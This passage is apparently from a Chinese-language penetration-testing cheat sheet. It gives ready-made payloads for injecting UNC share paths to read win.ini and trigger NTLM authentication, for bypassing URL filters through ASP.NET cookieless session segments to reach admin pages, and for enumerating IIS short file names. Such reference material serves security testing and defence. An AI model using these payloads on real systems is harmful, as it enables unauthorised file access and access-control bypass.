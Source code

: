 ### UNC共享

UNC（通用命名约定）共享是一种标准格式，用于以与平台无关的方式指定网络上资源（如共享文件、目录或设备）的位置。它通常在Windows环境中使用，但其他操作系统也支持。

攻击者可以将**Windows** UNC共享（`\\UNC\share\name`）注入到软件系统中，可能将访问重定向到非预期位置或任意文件。

```powershell
\\localhost\c$\windows\win.ini
```

此外，机器可能还会在此远程共享上进行身份验证，从而发送NTLM交换。

### ASP.NET 无Cookie

当启用无Cookie会话状态时，ASP.NET不依赖cookie来识别会话，而是通过将Session ID直接嵌入URL来修改URL。

例如，典型的URL可能会从：`http://example.com/page.aspx` 转换为：`http://example.com/(S(lit3py55t21z5v55vlm25s55))/page.aspx`。`(S(...))`中的值是Session ID。

| .NET 版本   | URI                        |
| -------------- | -------------------------- |
| V1.0, V1.1     | /(XXXXXXXX)/               |
| V2.0+          | /(S(XXXXXXXX))/            |
| V2.0+          | /(A(XXXXXXXX)F(YYYYYYYY))/ |
| V2.0+          | ...                        |


我们可以利用此行为绕过过滤的URL。

* 如果您的应用程序在主文件夹中

    ```ps1
    /(S(X))/
    /(Y(Z))/
    /(G(AAA-BBB)D(CCC=DDD)E(0-1))/
    /(S(X))/admin/(S(X))/main.aspx
    /(S(x))/b/(S(x))in/Navigator.dll
    ```

* 如果您的应用程序在子文件夹中

    ```ps1
    /MyApp/(S(X))/
    /admin/(S(X))/main.aspx
    /admin/Foobar/(S(X))/../(S(X))/main.aspx
    ```

### IIS 短名称

IIS 8.0之前的版本包含一个漏洞，可能允许攻击者猜测服务器上文件或目录的名称。这被称为IIS短名称漏洞。

```powershell
http://example.com/*~1*/.aspx
http://example.com/a*~1*/.aspx
```
